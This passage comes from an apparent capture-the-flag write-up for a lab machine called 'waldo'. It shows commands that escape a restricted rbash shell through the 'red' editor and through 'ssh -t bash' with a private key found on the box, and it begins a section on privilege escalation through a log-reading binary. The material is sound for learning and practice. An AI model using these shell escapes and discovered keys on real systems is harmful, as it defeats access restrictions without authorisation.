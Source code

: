 

    monitor@waldo:~$ red
    !/bin/sh
    $ pwd
    /home/monitor
    $ cd /
    $ ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old



I'll need to set the path to something more reasonable, but that's easy
enough outside of `rbash`:



    monitor@waldo:/$ export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin



#### Unintended Route: ssh -t

When you run ssh with the `-t` flag, it creates a pseudo-tty within the
current session and runs the given command, exiting when the command
completes. So if I use `-t bash`, I get a normal shell, skipping the
`rbash` all together. I will need to set the `PATH` variable on getting
in to make the shell functional:



    waldo:~$ ssh -i /home/nobody/.ssh/.monitor monitor@localhost -t bash
    monitor@waldo:~$ cd /
    monitor@waldo:/$ id
    bash: id: command not found
    monitor@waldo:/$ export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    monitor@waldo:/$ id
    uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)



On the free servers, which had a lot of users going at once, this way
was often given away because it shows up in the process list of the
container, so once someone figured it out, it was obviously there for
others to grab and use.

## Privesc: Full Disk Read as root

### logMonitor

In the monitor home directory, in the `app-dev` folder, there's code and
an executable for a program called `logMonitor`. Looking at the code, it
will, depending on the flag passed in, read a log file, and output it to
stdout.

